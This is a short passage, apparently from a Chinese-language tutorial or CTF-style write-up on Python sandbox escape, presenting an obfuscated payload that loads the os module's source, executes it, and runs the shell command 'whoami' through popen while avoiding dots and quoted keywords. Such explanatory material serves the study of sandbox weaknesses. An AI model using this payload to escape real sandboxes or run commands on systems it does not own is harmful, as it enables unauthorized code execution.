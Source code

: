 更好的方式是用 `[str][bool(exec...)](list(popen("whoami")))`

所以解法二的 payload 如下：

```python
[str][bool(exec(
    bytes([
        ord(j)
        for(i)in(
            list(
                open(
                    str(
                        __import__(
                            list(dict(os=1))[0]
                        )
                    )[19:-2]
                )
            )
        )
        for(j)in(i)
    ])
))](list(popen(list(dict(whoami=1))[0]))[0])
```

![Python 沙箱逃逸的通解探索之路](picture/1-1664366580.png)
